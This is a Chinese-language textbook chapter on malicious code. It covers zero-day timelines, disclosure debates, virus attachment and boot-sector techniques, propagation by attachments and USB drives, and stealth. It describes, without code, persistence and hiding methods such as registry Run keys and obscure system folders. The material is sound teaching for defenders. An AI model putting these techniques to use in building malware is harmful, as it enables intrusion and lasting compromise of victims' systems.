一种较新的现象被称为**零日攻击**，意指利用恶意软件攻击先前未知的漏洞，或是已知但尚未分发对策的漏洞。该称谓中的“零日”是指已知漏洞在未被利用的情况下度过的天数（零天）。正如侧边栏 3-6 所示，利用窗口期正在迅速缩短。

#### 侧边栏 3-6 迅速逼近的“零日”

Y2K 或千年虫问题，当时预测拥有两位数年份字段的计算机时钟从 99 变为 00 将导致严重后果，这是一个理想的问题：威胁易于定义，影响时间易于预测，且有充足的提前预警。或许正因如此，很少有计算机系统和人员在 2000 年 1 月 1 日清晨遭受重大损害。另一个倒计时时钟让计算机安全研究人员更加担忧。

产品漏洞成为公众所知与利用该漏洞的代码出现之间的时间间隔正在缩短。通用的利用时间线遵循以下序列：

* 攻击者发现一个先前未知的漏洞。
* 厂商知晓该漏洞。
* 有人开发代码（称为概念验证代码）以在受控环境中演示该漏洞。
* 厂商开发并分发补丁或变通方法以应对该漏洞。
* 用户实施防护措施。
* 有人扩展概念验证代码，或基于原始漏洞定义，发起实际攻击。

只要用户在实际攻击发生前接收并实施了防护措施，就不会造成危害。在防护措施可用之前发生的攻击称为**零日利用**。概念验证代码与实际攻击之间的时间间隔一直在缩短。Code Red 是最恶毒的恶意代码之一，它在 2001 年利用的漏洞，其补丁在攻击前一个多月就已分发。但最近，漏洞与利用之间的时间间隔持续下降。2005 年 8 月 18 日，微软发布安全公告以解决一个漏洞，其概念验证代码已发布在法国 SIRT（安全事件响应小组）网站 frsirt.org 上。一周后微软分发了补丁。2005 年 12 月 27 日，Windows 图元文件（.WMF）中发现了一个漏洞。数小时内，数百个站点开始利用该漏洞分发恶意代码，六天内出现了恶意代码工具包，任何人都可轻松创建利用代码。微软在九天后发布了补丁。

安全公司赛门铁克在其《全球互联网安全威胁报告》 [SYM14b] 中发现，2013 年有 23 个零日漏洞，比前一年的 14 个和 2011 年的 8 个有所增加。虽然这些数字看似很小，但重要的观察点是上升趋势和增长率。此外，受此类攻击的软件由数百万用户在数千个应用程序中执行。由于零日攻击对受影响软件的维护人员来说是意外，因此该漏洞将保持暴露状态，直到维护人员找到修复方法。赛门铁克报告称，针对前五大零日攻击，供应商平均需要四天时间准备并分发补丁；用户实际应用补丁的时间会更晚。

##### 什么是零日漏洞利用？

这取决于谁在计算。如果供应商知道漏洞但尚未发布补救措施，这是否算作零日？还是说漏洞利用必须让供应商感到意外？英国 Next Generation Software 的 David Litchfield 发现了漏洞并通知了 Oracle。他声称 Oracle 花了惊人的 800 天修复其中两个漏洞，其他漏洞则在 650 天后才修复。其他客户对缓慢的补丁周期感到不安——Oracle 在 2005 年 1 月至 2006 年 3 月期间未发布任何补丁 [GRE06]。由于缺乏响应，Litchfield 最终公开了漏洞以迫使 Oracle 改善客户支持。显然，除非发生攻击，否则无法确定缺陷是仅为安全社区所知，还是攻击者也知晓。

已知漏洞与漏洞利用之间的时间缩短，给供应商和用户都带来了压力，而时间压力不利于良好的软件开发或系统管理。

更糟糕的问题是无法控制的：攻击者知晓但安全社区不知晓的漏洞。

---

#### 恶意代码的现状

如今的恶意软件通常保持休眠状态，直到被需要，或直到其针对特定类型的软件以瘫痪某个更大的（有时是硬件）系统。例如，Conficker（2008）是一种感染的统称，它使受害目标处于主控代理的控制之下。感染的效果不是即时的；恶意软件处于潜伏状态，直到主控代理导致受感染的代理下载特定代码并执行群体攻击。

---

**恶意软件不仅攻击个别用户和单台计算机。主要应用程序和行业也面临风险。**

---

例如，Stuxnet（2010）在 2010 年获得了大量媒体报道。这是一段非常复杂的代码，利用了西门子工业控制系统软件中的漏洞。这种软件广泛用于监控与数据采集（SCADA）系统，控制化工制造、石油炼制和分销以及核电站的过程——这些过程一旦失败可能导致灾难性后果。表 3-3 给出了一些著名恶意代码感染事件的时间线。


**表 3-3** 著名恶意代码感染事件

有了这些历史背景，我们现在更广泛地探讨恶意代码的多种类型。

### 技术细节：恶意代码

恶意代码的变种数量未知。根据一家测试服务机构 [AVC10] 的数据，寻找恶意软件“签名”的恶意代码检测器（如常见的杀毒工具）涵盖了超过 100 万个定义，尽管由于变异，一种变种可能涉及多个定义。感染载体包括操作系统、文档应用程序（主要是文字处理器和电子表格）、媒体播放器、浏览器、文档渲染引擎（如 `Adobe PDF reader`）和照片编辑程序。传播媒介包括文档、照片和音乐文件，通过网络、磁盘、闪存介质（如 `USB` 存储设备），甚至数码相框传播。针对其他带有嵌入式计算机的可编程设备（如手机、汽车、数字视频录像机和收银机）的感染正成为恶意代码的攻击目标。

在本节中，我们将探讨恶意代码感染的四个方面：

* **危害** —— 它们如何影响用户和系统
* **传播与扩散** —— 它们如何传输和复制，以及如何导致进一步传播
* **激活** —— 它们如何获取控制权并安装自己，以便能够重新激活
* **隐蔽性** —— 它们如何隐藏以避免检测

我们通过研究恶意代码造成的危害来开始对恶意软件的学习。

#### 恶意代码造成的危害

病毒和其他恶意代码可能造成基本无限的危害。因为恶意软件在用户的权限下运行，它可以执行用户能做的任何事情。在本节中，我们给出恶意软件可能造成的危害的一些示例。有些示例微不足道，更像是恶作剧。但其他示例则极其严重，后果显而易见。

我们可以将恶意代码的有效载荷分为三类：

* **非破坏性**。行为示例包括发送有趣的消息或在屏幕上闪烁图像，通常只是为了展示作者的能力。此类还包括 **病毒骗局**，即虚假警告某恶意代码的消息，显然旨在导致接收者恐慌并将消息转发给联系人，从而传播恐慌。
* **破坏性**。此类代码破坏文件、删除文件、损坏软件，或执行命令导致硬件压力或损坏，除损害接收者外无其他明显动机。
* **商业或犯罪意图**。此类感染试图接管接收者的计算机，安装代码以允许远程代理在其信号下使计算机执行操作，或将敏感数据转发给代理。操作示例包括收集个人数据（例如银行网站的登录凭据）、收集专有数据（如企业计划，据报 2011 年 2 月五家石油行业公司的计算机遭感染即属此类），或作为受控代理发送垃圾邮件或发起拒绝服务攻击，如 第 6 章 所述。

正如我们在 第 1 章 指出的，如果不了解攻击者的意图，动机很难确定。然而，第三类具有明显的商业动机。有组织犯罪对利用恶意代码牟利表现出了兴趣 [WIL01, BRA06, MEN10]。

##### 对用户的危害

大多数恶意代码危害发生在受感染计算机的数据上。以下是一些现实世界中的恶意示例。

* 隐藏光标。
* 在屏幕上显示文本或图像。
* 打开浏览器窗口访问与当前活动相关的网站（例如，当前站点是外国城市旅游局时，打开航空公司网页）。
* 向用户联系人或别名列表中的部分或全部条目发送电子邮件。请注意，邮件将显示为来自用户，导致收件人认为其真实可信。Melissa 病毒就做过这件事，它将自身副本作为附件发送，毫无戒心的收件人打开附件后会被感染，从而使感染扩散到他们的联系人。
* 打开文本文档并将部分 "is" 改为 "is not"，反之亦然。因此，"Raul is my friend" 变成 "Raul is not my friend"。恶意软件仅在随机位置更改少数实例，因此变化不易察觉。想象一下这些更改对学期论文、提案、合同或新闻稿会产生什么影响。
* 删除所有文件。Jerusalem 病毒在每个月的第 13 天（如果是周五）执行此操作。
* 修改系统程序文件。许多恶意软件变种这样做是为了确保后续重新激活并避免检测。
* 修改系统信息，如 Windows 注册表（所有关键系统信息的表）。
* 窃取并转发敏感信息，如密码和登录详情。

除了这些直接危害形式外，用户还可能间接受害。例如，如果公司网站被劫持以传播恶意代码，公司的公众形象可能受损。或者，如果攻击导致某些网页文件或功能不可用，人们可能永久转向竞争对手的网站（或直到竞争对手的网站也遭受攻击）。

虽然用户最直接地受到恶意软件的伤害，但当用户在感染后尝试清理系统时，还会产生次生伤害。接下来我们考虑对用户系统的影响。

##### 对用户系统的危害

恶意软件编写者通常意图让其代码持久存在，因此他们编写代码的方式能够抵抗清除尝试。很少有编写者会如此明显地在用户磁盘的顶级目录下植入一个名为“malware”的文件。以下是恶意软件编写者隐藏其感染的一些手段；这些技术也增加了检测和清除的难度。

* 将文件隐藏在较低级别的目录中，通常是由另一个合法程序创建或使用的子目录。例如，Windows 操作系统在一个名为“registered packages”的文件夹中为某些已安装程序维护子目录。在该文件夹内，有名称难以理解的子文件夹，例如 `{982FB688-E76B-4246-987B-9218318B90A}`。你能分辨出该目录属于哪个包，或者哪些文件理应位于那里吗？
* 利用本章前面描述的技术，依附于关键系统文件，特别是系统启动期间被调用的文件（以确保恶意软件被重新激活）。
* 替换（但保留名称）非关键系统文件。部分系统功能将丢失，但粗略查看系统文件不会发现任何不属于该系统的文件名。
* 在多个位置隐藏可执行代码的副本。
* 在不同系统的不同位置隐藏可执行文件的副本，以使单一的清除程序无法奏效。
* 修改系统注册表，使恶意软件始终被执行或禁用恶意软件检测。

正如这些示例所示，清除系统中的恶意软件可能很困难，因为感染可能存在于系统区域、已安装程序、用户数据或未记录的可用空间中。副本可以在内存和磁盘驱动器之间来回移动，以便在清理了一个位置后，从另一个位置重新插入感染。

对于简单的感染，仅移除有害文件即可根除问题。病毒有时具有 `multipartite`（多部分）形式，意味着它们以若干独立部分安装在不同位置，有时用于执行不同的目标。在这种情况下，如果仅移除其中一部分，剩余部分可以重组并重新安装被删除的部分；根除需要销毁感染的所有部分。但对于根基更深的感染，用户可能不得不擦除并重新格式化整个磁盘，然后重新安装操作系统、应用程序和用户数据。（当然，只有当用户拥有完好无损的副本作为起点时，才能重新安装这些内容。）

因此，对用户的危害不仅在于直接丢失或损坏的数据的替换所花费的时间和精力，还在于处理对系统的次生影响以及清理任何由此产生的损坏。

##### 对世界的危害

大多数恶意代码的一个基本特征是其向其他系统的传播。除了专门针对的攻击外，恶意软件编写者通常希望其代码感染许多人，并采用能够使感染以几何级数速率传播的技术。

1988 年的 Morris 蠕虫仅感染了 3,000 台计算机，但这些计算机占当时互联网的很大比例，可能高达一半。IloveYou 蠕虫（通过一封主题行极具诱惑力的“我爱你”电子邮件传播）据估计感染了 100,000 台服务器；安全公司 Message Labs 估计，在攻击高峰期，全球每 28 封电子邮件中就有 1 封是该蠕虫的感染邮件。据信 Code Red 影响了近 300 万台主机。据某些估计，Conficker 蠕虫（多个变种）控制着一个由 150 万台受感染且未修复的主机组成的网络，处于蠕虫作者的控制之下 [MAR09]。从此类重大感染中恢复的成本通常超过 100 万美元。因此，计算机用户和整个社会为应对恶意软件付出了沉重的代价。

##### 损失估算

如何确定任何计算机安全事件的成本或损失？这个问题类似于确定建筑物倒塌、地震、石油泄漏或人身伤害等复杂灾害成本的问题。不幸的是，无论是在计算机安全领域还是其他领域，将危害转化为金额都很困难。

第一步是列举损失。其中一些是有形的，例如设备损坏。其他损失包括必须重新创建或修复的丢失或损坏的数据，以及服务降级——完成一项任务所需的员工时间变为原来的两倍。调查损害程度也会产生成本。（哪些程序和数据受到影响？哪些归档版本可以安全重新加载？）还有无形且难以衡量的损失，例如客户流失或声誉受损。

***

**估算事件成本很难。这并不意味着成本为零或微不足道，只是难以确定。**

***


你必须为每一项损失确定一个公允价值。如果有替换价格，损坏的硬件或软件很容易估价。对于损坏的数据，你必须估算员工恢复、重新创建或修复数据的时间成本，包括确定什么受损、什么未受损所需的时间。客户流失可以通过事件发生前后客户数量的差额来估算；你可以按平均每位客户的利润为损失定价。声誉受损是真实的损失，但极难公允定价。正如我们在探讨风险管理时所见，人们对风险的感知影响他们对攻击影响的估算。因此，他们对人员生命损失或声誉受损的价值估算会有所不同。

了解损失及其大致成本后，你可以计算事件的总成本。但正如你所见，确定包含哪些损失并对其进行公允估价可能是主观且不精确的。主观和不精确并不意味着无效；它们只是表明存在巨大的变动空间。因此，你可以理解，为何从安全事件中恢复的损失估算会有数量级的差异。例如，Code Red 造成的损失估算范围从 5 亿美元到 26 亿美元，而针对 Conficker 的一项估算（修复了 900 万至 1500 万个系统，加上 150 万个尚未清除感染的系统）高达 92 亿美元，即每个系统约 1000 美元 [DAN09]。

# 传播与蔓延

代码的打印副本什么也做不了，也不威胁任何人。即使是存放在磁盘上的可执行代码也什么也不做。什么触发代码开始运行？为了完成恶意工作并自我传播，恶意软件必须被执行以被激活。对恶意软件编写者幸运的是，但对我们其他人不幸的是，有许多方法可以确保程序在运行中的计算机上被执行。

## 安装与安装程序传播

### 病毒激活与传播机制

### 回顾 SETUP 程序

回想一下你在电脑上运行的 `SETUP` 程序，它用于加载和安装新程序。它可能会调用数十或数百个其他程序，有的在分发介质上，有的已驻留在计算机中，有的在内存中。如果其中任何一个程序包含病毒，病毒代码就可能被激活。让我们看看这是如何发生的。假设病毒代码位于分发介质（如 CD）上的一个程序中，或包含在下载的安装包中；当被执行时，病毒可以将自身安装到永久存储介质（通常是硬盘）上，也可以安装到内存中任何正在执行的程序中。启动该过程需要人为干预；有人将病毒放在分发介质上，或许另一个人启动了携带病毒的程序的执行。（执行也可以在无人干预的情况下发生，例如由日期触发或经过一定时间后触发。）在此之后，无需人为干预；病毒可以自行传播。

### 附件文件

病毒激活更常见的途径是附加在电子邮件中的文件或嵌入在文件内。在此攻击中，病毒编写者试图说服受害者（消息或文件的接收者）打开该对象。一旦打开（从而执行）了带毒对象，激活的病毒就能开展工作。一些现代邮件处理程序为了“帮助”接收者（受害者），会在接收者打开邮件正文时自动打开附件。病毒可以是嵌入在可执行附件中的可执行代码，但其他类型的文件同样危险。例如，图形或照片图像等对象可包含由编辑器执行的代码，因此它们可以成为病毒的传播媒介。一般来说，强制用户自行打开文件而不是让应用程序自动打开是最佳实践；程序不应在未经用户同意的情况下执行潜在的安全相关操作。然而，易用性往往胜过安全性，因此浏览器、邮件处理程序和查看器等程序常会“贴心地”在未先询问用户的情况下打开文件。

#### 文档病毒

曾经非常流行的一种病毒类型是我们所说的文档病毒，它实现于格式化文档中，如文字文档、数据库、幻灯片演示、图片或电子表格。这些文档是高度结构化的文件，既包含数据（文字或数字），也包含命令（如公式、格式控制、链接）。这些命令是一种丰富编程语言的一部分，包括宏、变量和过程、文件访问，甚至系统调用。文档病毒编写者利用编程语言的任何特性来执行恶意操作。

普通用户通常只看到文档的内容（其文本或数据），因此病毒编写者只需将病毒包含在文档的命令部分中，就像在集成程序病毒中一样。

### 自动运行

自动运行是操作系统的一项功能，它根据名称或位置导致代码自动执行。早期的自动运行程序是 DOS 文件 `autoexec.bat`，这是一个位于启动磁盘最高目录层级的脚本文件。当系统开始执行时，它会自动执行 `autoexec.bat`，因此早期恶意代码编写者的目标是增强或替换 `autoexec.bat` 以使恶意代码得以执行。类似地，在 Unix 中，`.cshrc` 和 `.profile` 等文件会在系统启动时自动处理（取决于版本）。

在 Windows 中，注册表包含多个在启动时自动调用的程序列表，有些显而易见（在“开始菜单/程序/启动”列表中），有些则更隐蔽（例如在注册表键 `software\windows\current_version\run` 中）。

传播恶意软件的一种流行技术是通过闪存分发，例如固态 USB 记忆棒。人们喜欢免费获取东西，分发受感染的存储设备是以相对低成本传播感染的一种方式。虽然传播必须手动进行（例如在火车站作为广告免费发放 U 盘），但这种人际接触确实增加了可信度：我们会对陌生人的附件保持怀疑，但有些人会对亲手从另一个人那里收到的东西放松警惕。

## 传播

由于病毒代码量很小，其代码可以“隐藏”在其他更大、更复杂的程序内部。两百行的病毒代码可以分成一百个包，每包两行代码加一条跳转指令；这百个包可以轻松隐藏在编译器、数据库管理器、文件管理器或其他大型实用程序中。

### 追加式病毒

程序病毒将自身附加到一个程序上；然后，每当运行该程序时，病毒就会被激活。这种附加方式通常易于设计和实现。

在最简单的情况下，病毒在第一条可执行指令之前将自身的副本插入可执行程序文件中。然后，所有病毒指令首先执行；在最后一条病毒指令之后，控制流自然地流向原本的第一条程序指令。这种情况如图 3-19 所示。


**图 3-19** 病毒附加

这种附加方式简单且通常有效。病毒编写者无需了解将要附加的程序的任何信息，且被附加程序通常仅作为病毒的载体。病毒执行其任务后转移到原始程序。通常，如果原始程序仍能完成所有原有功能，用户不会察觉病毒的影响。大多数病毒以这种方式附加。

### 环绕式病毒

附加的一种替代方案是环绕原始程序运行但在其执行前后拥有控制权的病毒。例如，病毒编写者可能希望防止病毒被检测到。如果病毒存储在磁盘上，其文件名会暴露其存在，或其大小会影响磁盘已用空间。病毒编写者可能会安排病毒附加到构建磁盘文件列表的程序上。如果病毒在列表程序生成列表后、列表显示或打印前重获控制权，病毒就可以从列表中消除其条目并伪造空间计数，使其看起来不存在。环绕式病毒如图 3-20 所示。


**图 3-20** 环绕式病毒

### 集成式病毒与替换式病毒

第三种情况发生在病毒替换其目标的一部分，将自身集成到目标的原始代码中。这种情况如图 3-21 所示。显然，病毒编写者必须了解原始程序的确切结构，才知道在哪里插入病毒的哪些部分。


**图 3-21** 病毒插入

最后，恶意代码可以替换整个目标，要么模仿目标的效果，要么忽略其预期效果而仅执行病毒效果。在这种情况下，用户可能会感知到原始程序的丢失。

### 激活

早期恶意软件编写者使用文档宏和脚本作为将恶意软件引入环境的载体。相应地，用户和设计者加强了对宏和脚本的控制，以总体上防范恶意代码，因此恶意软件编写者不得不寻找其他传输其代码的手段。

#### 恶意软件漏洞利用与漏洞披露

恶意软件现在通常利用常用程序中一个或多个现有的漏洞。例如，2001 年的“红色代码”蠕虫利用了微软 Internet 信息服务（IIS）中一个较早的缓冲区溢出程序缺陷，而 Conficker.A 则利用了一个涉及特制远程过程调用（RPC）请求的缺陷。尽管恶意软件编写者通常必须找到一个漏洞，并希望预期受害者尚未应用防护或修正补丁，但每个漏洞都代表了一个新的切入点，可用于对该产品的所有用户进行破坏。

***

**是披露缺陷并警告用户他们处于脆弱状态，还是在有对策之前隐瞒它？这没有简单的答案。**

***

尽管开发团队尽了最大努力，缺陷仍会发生。在发现缺陷后，安全研究人员——或商业软件供应商——面临两难境地：宣布该缺陷（此时可能尚无补丁）并提醒恶意代码编写者又有了一个可供攻击的漏洞，还是保持沉默，希望恶意代码编写者尚未发现该缺陷。正如侧边栏 3-7 所述，无法发布有效补丁的供应商会希望限制披露。然而，如果一名攻击者发现了该漏洞，消息将通过地下攻击者网络迅速传播。相互竞争的目标使得漏洞披露成为一个棘手的问题。

***

##### 侧边栏 3-7：只要保密，它就不存在

2005 年 7 月，安全研究人员迈克尔·林恩在 Black Hat 安全大会上发表了演讲。作为互联网安全系统公司（ISS）的研究人员，他发现了他认为属于严重漏洞的缺陷，这些漏洞存在于思科大多数防火墙和路由器产品所基于的底层操作系统 IOS 中。ISS 在演讲前一个月已将漏洞告知思科，两家公司原计划联合演讲，但后来取消了。

林恩担心用户处于危险之中，因为攻击者可能会发现该漏洞，因此他展示了足够的漏洞细节，以便用户了解其严重性。ISS 曾试图阻止林恩的演讲或删除技术细节，但他选择从 ISS 辞职，也不愿被噤声。思科也试图阻止演讲，要求从会议论文集中撕下 20 页。多个网站发布了演讲细节，随之而来的是诉讼，并在和解中撤回了副本。该事件给思科和 ISS 都带来了公关灾难。（有关情况事实的概述，请参见 Bank [BAN05]。）

问题依然存在：公司能或应该在多大程度上限制漏洞披露？一方面，公司希望限制披露；另一方面，用户应知晓可能影响他们的潜在弱点。研究人员担心公司不会迅速采取行动修补漏洞，从而让客户处于风险之中。无论观点如何，法律制度并不总是解决披露问题的最有效途径。

计算机安全并非唯一出现此类辩论的领域。AT&T 实验室的计算机安全研究人员马特·布雷兹研究了物理锁和主钥匙 [BLA03]；这些锁用于大学宿舍和办公楼等建筑，个人持有单间钥匙，而少数维修或其他工作人员持有一把能开启所有锁的主钥匙。布雷兹描述了一种技术，由于这类锁的一个特性（漏洞？），可以用相对较小的代价找到一类锁的主钥匙；该攻击一次找出主钥匙的一颗弹子。根据施奈尔 [SCH03] 和布雷兹的说法，该特性为锁匠和撬锁罪犯所熟知，但普通公众（用户）不知情。作为一位受人尊敬的密码学家，布雷兹自然而然地想到了他的策略：他的方法类似于一种标准的密码分析攻击，即逐位推导加密密钥。

布雷兹面临一个重要问题：是记录一种制造商和攻击者知晓但用户不知晓的技术，还是让用户拥有虚假的安全感？他选择了披露。施奈尔指出，这种弱点已为人所知 100 多年，且有其他几种主钥匙设计可免疫布雷兹的攻击。但这些锁并未广泛使用，因为客户不知风险，因此不要求更强的产品。施奈尔说：“我宁愿拥有尽可能多的信息，以便对安全做出明智的决定。”

***

#### 恶意代码如何获取控制权

当攻击者找到可利用的漏洞时，下一步是利用该漏洞推进攻击。接下来我们将探讨恶意代码如何作为妥协的一部分获取控制权。

为了获取处理控制权，诸如病毒（V）之类的恶意代码必须被调用，而不是目标程序（T）。本质上，病毒要么必须看起来像 T，实际上是在说“我是 T”；要么必须将 T 推开并成为 T 的替代品，实际上是在说“调用我，而不是 T”。更赤裸裸的病毒可以直接说“调用我[你这个傻瓜]”。

病毒可以通过在文件结构中替换（或连接到）T 的代码来假冒 T 的名称；这种调用技术最适合普通程序。病毒可以覆盖存储中的 T（例如，简单地替换存储中 T 的副本）。或者，病毒可以更改文件表中的指针，以便每当通过文件系统访问 T 时，定位到的都是病毒而不是 T。这两种情况如图 3-22 所示。


**图 3-22** 病毒 V 替代目标 T

病毒可以通过改变原本会调用 T 的序列，使其现在调用病毒 V，从而取代 T；这种调用可以通过修改指向驻留部分的指针（如不同类型中断处理程序的表）来替换驻留操作系统的部分内容。

#### 嵌入：恶意软件的栖身之所

恶意软件编写者可能希望将以下特性构建到恶意软件中：

- 恶意代码难以检测。
- 恶意代码不易被销毁或停用。
- 恶意代码广泛传播感染。
- 恶意代码可重新感染其宿主程序或其他程序。
- 恶意代码易于创建。
- 恶意代码与机器无关，且与操作系统无关。

很少有恶意软件示例能满足所有这些标准。编写者在决定代码功能及驻留位置时，会从这些目标中进行选择。

就在几年前，病毒编写者的挑战是编写可反复执行的代码，以便病毒得以繁殖。然而现在，一次执行通常足以确保广泛分发。许多类型的恶意软件通过电子邮件传播。例如，某些恶意软件会生成新的电子邮件发送给受害者通讯录中的所有地址。这些新邮件包含恶意软件副本，从而使其广泛传播。通常邮件内容简短、闲聊性质且不具体，旨在鼓励新收件人打开来自朋友（第一收件人）的附件。例如，主题行或邮件正文可能写着“我觉得你可能会喜欢我们度假时的这张照片。”

##### 一次性执行（植入）

恶意代码通常执行一次性进程来传输或接收并安装感染。有时用户点击下载文件，有时用户打开附件，有时恶意代码在网页显示时悄无声息地下载。无论如何，获取并安装代码的这一第一步必须迅速且不为用户察觉。

#### 引导扇区病毒

病毒附着的一种特殊情况，但以前相当流行，就是所谓的引导扇区病毒。攻击者感兴趣的是造成持续或重复的危害，而不仅仅是一次性攻击。为了实现持续性，感染需要长期存在并成为操作系统不可或缺的一部分。在这类攻击中，实现永久化的简便方法是强制在每次系统重启时重新加载有害代码。实际上，类似的技术对大多数类型的恶意代码都有效，因此我们首先描述病毒的此类过程，然后解释该技术如何扩展到其他类型。

##### 引导过程

当计算机启动时，控制权始于固件，固件确定存在哪些硬件组件，对其进行测试，并将控制权移交给操作系统。给定的硬件平台可以运行许多不同的操作系统，因此操作系统并未编码在固件中，而是在硬件测试后动态调用，甚至可能由用户选择。

现代操作系统由许多模块组成；任何计算机上包含哪些模块取决于计算机的硬件和连接的设备、已加载的软件、用户偏好和设置以及其他因素。一个执行程序监督引导过程，按可接受的顺序加载并启动正确的模块。拼凑拼图已经够难了，但执行程序必须同时处理来自许多拼图的碎片，以某种方式只从每个拼图中取出几块，拼成一个一致、连贯的整体，甚至连组装后结果会是什么样子的图片都没有。有人在这种可连接模块的广泛阵列中看到了灵活性；也有人在将加载哪些模块以及它们如何相互关联的不确定性中看到了脆弱性。

##### 引导扇区攻击

恶意代码可以通过多种方式入侵这一引导序列。攻击可以修改或添加待加载模块的列表，或者通过更改待加载模块的地址、或用同名的修改例程替换，以受感染模块替换良性模块。对于引导扇区攻击，攻击者会更改指向操作系统下一部分的指针以便加载，如图 3-23 所示。


**图 3-23** 引导或初始化时病毒

引导扇区是存放病毒的一个特别诱人的地方。病毒在引导过程早期获得控制权，此时大多数检测工具尚未激活，因此它可以避免检测，或至少使检测变得复杂。引导区的文件是操作系统的关键部分。因此，为防止用户意外修改或删除它们导致灾难性后果，操作系统通过不在正常的存储文件列表中显示它们，使其“隐形”，从而防止其被删除。因此，用户不易注意到病毒代码。

自首个病毒出现以来，操作系统已变得庞大而复杂。引导过程仍然相同，但在引导过程中激活的例程多得多；许多程序——通常有数百个——在启动时运行。操作系统、设备处理程序和其他必要的应用程序数量众多且名称晦涩难懂，因此恶意代码编写者无需完全隐藏其代码；即使用户看到名为 `malware.exe` 的文件，也更可能认为这是个玩笑，而非真正的恶意代码。将代码埋藏在其他系统例程中，并将代码放入计算机启动时运行的程序列表中，是确保恶意软件重新激活的当前技术。

#### 内存驻留型病毒

操作系统的某些部分和大多数用户程序会执行、终止并消失，它们在内存中的空间随后可供稍后执行的任何程序使用。对于操作系统中频繁使用的部分和少数专用用户程序，每次需要时重新加载程序耗时太长。相反，此类代码保留在内存中，称为“驻留”代码。驻留代码的例子包括解释键盘按键的例程、处理程序执行期间出现的错误条件的代码，或充当闹钟在用户确定的时间发出信号的程序。驻留例程有时称为 TSR 或“终止并驻留”例程。

病毒编写者也喜欢将病毒附着到驻留代码上，因为驻留代码在机器运行期间会被激活多次。每次驻留代码运行，病毒也会随之运行。一旦激活，病毒就可以查找并感染未受感染的载体。例如，激活后，引导扇区病毒可能会将自身附着到一段驻留代码上。然后，每次病毒被激活时，它可能会检查磁盘驱动器中的任何可移动磁盘是否已被感染，如果没有，则对其进行感染。通过这种方式，病毒可在计算会话期间将其感染传播到所有使用的可移动磁盘。

病毒还可以修改操作系统的运行程序表。一旦病毒获得控制权，它可以插入一个注册表项，以便在每次系统重启时被重新调用。这样，即使用户注意到并从内存中删除了病毒的执行副本，系统也会在下一次系统重启时使病毒“复活”。

对于通用恶意软件而言，仅从内存执行一次有一个明显的缺点，即只有一次造成恶意行为的机会，但另一方面，如果每当机器关闭时感染代码就消失，恶意代码就不太可能被安全团队分析。

#### 病毒的其他栖身之所

不在这些舒适场所中“安家”的病毒必须自谋生路。但这并不意味着病毒会无家可归。

你可能认为应用程序——代码——可以做事，但数据文件——文档、电子表格、文档图像 PDF 文件或图片——是无法造成危害的被动对象。事实上，这些结构化数据文件包含显示和操作其数据的命令。因此，PDF 文件由 Adobe Reader 等程序显示，该程序响应 PDF 文件中的命令执行许多操作。虽然此类文件本身不可作为程序执行，但它可以导致处理它的程序产生活动。此类文件称为**解释型数据**，处理程序也称为**解释器**。Adobe Reader 程序是 PDF 文件的解释器。如果 PDF 解释器或 PDF 解释型语言的语义存在缺陷，打开 PDF 文件可能导致恶意代码的下载和执行。因此，即使是看似被动的对象（如文档图像）也可能导致恶意代码感染。


# 病毒的一个流行栖身之所是应用程序

许多应用程序（如文字处理器和电子表格）都有“宏”功能，用户可以记录一系列命令，然后通过一次调用重复整个系列。此类程序还提供“启动宏”，每次执行应用程序时都会运行。病毒编写者可以创建一个病毒宏，将其添加到应用程序的启动指令中。它还会将自身的副本嵌入数据文件中，以便感染传播给接收一个或多个此类文件的任何人。因此，病毒编写者实际上将恶意软件添加到了一个受信任且常用的应用程序中，从而确保有害附加组件反复激活。

## 代码库也是恶意代码潜伏的绝佳场所

代码库也是恶意代码潜伏的绝佳场所。因为库会被许多程序使用，其中的代码将产生广泛的影响。此外，库通常在用户间共享并从一个用户传递给另一个用户，这种做法会传播感染。最后，执行库中的代码可将病毒感染传递给其他传播媒介。编译器、加载器、链接器、运行时监视器、运行时调试器，甚至病毒控制程序，都是寄生病毒的良好候选者，因为它们被广泛共享。

## 隐蔽性

恶意代码编写者的最终目标是隐蔽性：在安装期间、执行期间，甚至静止存储时都避免被检测到。

**大多数病毒通过隐藏其行为、不宣告其存在以及伪装其外观来保持隐蔽。**

### 检测

如果有一个判断两个程序是否等价的过程，将有助于发现恶意代码：我们可以编写一个具有已知有害效果的程序，然后将其与任何其他可疑程序进行比较，以确定两者是否产生等价的结果。然而，这个等价性问题很复杂，计算理论的理论结果表明，通用的解决方案不太可能存在。在复杂性理论中，我们说“这两个程序是否等价？”这一通用问题是**不可判定**的（尽管该问题*可以*针对许多特定的程序对得到解答）。

即使我们忽略通用的不可判定性问题，仍必须处理大量关于等价性含义及其如何影响安全性的不确定性。两个模块可能实际上等价，但会产生微妙的不同结果，这些结果可能——也可能不——与安全相关。一个可能运行得更快，或者第一个可能使用临时文件作为工作区，而第二个在内存中执行所有计算。这些差异可能是良性的，也可能是感染的标志。因此，我们不太可能开发出一种筛选程序，能将受感染的模块与未受感染的模块分开。

尽管通用情况令人沮丧，但特定情况并非如此。如果我们知道某种特定病毒可能感染计算系统，我们可以检查其“签名”，如果它存在则将其检测出来。然而，发现病毒后，我们还面临着清除系统中病毒的任务。在运行中的系统中清除病毒，要求能够比病毒传播得更快地检测并消除其实例。

我们刚才给出的例子描述了恶意代码到达目标计算机的几种方式，但它们并未回答代码是如何首次被执行并持续执行的问题。网页中的代码可以直接被注入浏览器执行的代码中，尽管用户浏览器中的安全设置可能限制该代码的行为。然而，更普遍的是，代码编写者试图寻找方法将其代码与现有程序关联起来，采用我们此处描述的方式，以便在调用“良性”代码时，“恶意”代码也随之执行。

### 安装隐蔽性

我们已经描述了几种在用户不知情的情况下传输代码的方法，包括作为加载网页的结果进行下载，以及宣称实现某一功能实则实现另一功能。恶意代码设计者相当擅长诱骗用户接受恶意软件。

### 执行隐蔽性

同样，在执行期间保持不被注意也不是太难。现代操作系统通常支持数十个并发进程，其中许多拥有无法识别的名称和功能。因此，即使用户注意到一个名称无法识别的程序，用户也更倾向于将其视为系统程序而非恶意软件。

### 存储隐蔽性

如果你编写一个程序分发给他人，你会给每个人一份相同的副本。除了一些定制（如用户身份详情或产品序列号）外，你的程序将与其他人的完全相同。即使你有不同的版本，你也可能会将代码构建为两个部分：一个面向所有人的核心程序，以及一些针对特定用户类型的较小模块——家庭用户、小企业专业人士、学校人员或大型企业客户。这样设计代码对你来说是经济的方法：为许多客户设计、编码、测试和维护一个实体，比为每个单独的销售都这样做成本更低。你交付和安装的代码将在所有副本中拥有相同的指令部分。

